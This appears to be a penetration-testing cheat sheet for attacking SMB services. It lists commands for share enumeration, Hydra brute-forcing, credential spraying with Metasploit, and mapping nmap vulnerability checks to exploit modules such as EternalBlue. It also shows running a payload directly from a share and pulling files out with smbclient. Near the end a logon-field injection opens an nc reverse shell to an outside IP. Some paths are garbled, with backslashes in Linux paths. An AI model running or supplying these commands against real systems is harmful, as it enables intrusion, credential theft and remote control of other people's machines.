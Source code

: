 ```yaml
---
title: "Working With SMB"
date: "2022-05-21"
description: "A look at interacting with SMB Shares using the Windows Command line and using various tools available within Kali Linux."
coverimage: Working_With_SMB.jpg
tags: hydra, mount, nmblookup
published: true
---
```

## Working with SMB

### Windows

Windows commands for working with our share

```
net use \\10.1.1.99\IPC$ /user:evilsmb
net view 10.1.1.99
dir \\10.1.1.99\evilshare
copy \\10.1.1.99\evilshare\29.jpg mypic.jpg
```

Anonymous shares can be viewed without authenticating to the IPC$ share.

```
net view 10.1.1.99
```

Mount a share

```
net use Y \\10.1.1.99\myshare  /user:eviltest
cd /d Y:\
dir
```

Executing files from SMB. Because of the way Windows treats UNC paths, it’s possible to just execute our binary directly from the SMB share without even needing to copy it over first. Just run the executable as if it were already local and the payload will fire:

```
C:\Users\evilsaint\Desktop> \\10.1.1.254\sharefolder\payload.exe
```

### Linux

Listing SMB shares with username and password
```
smbclient -L 10.1.1.99 -U username%password
```

Listing SMB Shares with anonymous connection
```
smbclient -N -L 10.1.1.99
```

Connecting to SMB Share with username and password
```
smbclient //10.1.1.99/myshare -U eviltest%evilpass
```

Connecting to SMB Share without username and password
```
smbclient //10.1.1.99/myshare
```

# SMB

### SMB Shares

List Shares of computers in Domain
```
Get-NetComputer -DomainController 172.20.50.254 | Get-NetShare
```

# Bruteforcing SMB with Hydra

Comma seperated username and passwords
```
hydra -v -V -C user-pass.txt 10.1.18.2 smb
```

not using comma separated
```
hydra -L users.txt -e ns 172.24.2.97 smb
```

# SMB

## NetBIOS

Find all hosts responding to netbios, the `q` supresses the headers
```
nbtscan -q 10.11.1.0\24
```

Look at more detail for a single host either by IP or hostname
```
nmblookup -A 10.50.1.254
nmblookup -S DC01
```

## Crackmapexec

```
crackmapexec smb 10.50.1.0\24
```

## NMAP

Run all Nmap SMB Checks

```
nmap -sS -p 445 -n --open --script=smb-vuln* <ip>
```

Exploit vulnerabilities with metasploit

| Vulnerability | Metasploit Module |
| --- | --- |
| smb-vuln-ms06-025  | exploit06_025_rasmans_reg |
| smb-vuln-ms07-029  | exploit07_029_msdns_zonename |
| smb-vuln-ms08-067  | exploit08_067_netapi |
| smb-vuln-cve2009-3103  | exploit09_050_smb2_negotiate_func_index |
| smb-vuln-ms17-010 | exploit17_010_eternalblue |

## SMB login (spray credentials)

```
msf > use auxiliary/scanner/smb/smb_login
show options
verbose off
set password to the obtained local admin password
remove user as pass
```

## Enum4linux

Enumerate SMB

```
enum4linux -a -u Administrator -p Passw0rd! 10.50.1.15
```

## SMB Client

Listing SMB shares with username and password
```
smbclient -L 10.1.1.99 -U username%password
```

Listing SMB Shares with anonymous connection
```
smbclient -N -L 10.1.1.99
```

Connecting to SMB Share with username and password
```
smbclient //10.1.1.99/myshare -U eviltest%evilpass
```

Connecting to SMB Share without username and password
```
smbclient //10.1.1.99/myshare
```

We can use smbclient over proxychains
```
proxychains smbclient '//192.168.1.230/myshare' -U 'MARVEL.LAB\Administrator%password123!'
```

We can tar up files or folders with smbclient
```
smbclient //10.129.121.21/guest -Tc test.tar secret.txt
smbclient //10.129.121.21/guest -Tc test.tar /tmp
```

## Mount Share

Mount SMB Share
```
mount -t  \\X.X.X.X\c$ \mnt\remote\ -o username=user,password=pass,rw
```

To get a shell back from an SMB share.
```
logon "\=`nc 10.11.0.233 443 -e \bin\bash`"
```

## SMBMap

Not very stealthy but can execute a command
```
python /usr/share/smbmap/smbmap.py -H 127.0.0.1 -u user -p pass -x 'net group "domain admins" \domain'
```

## SMBTree

SMB Tree can map out all smb shares in the neighbourhood.
```
smbtree
```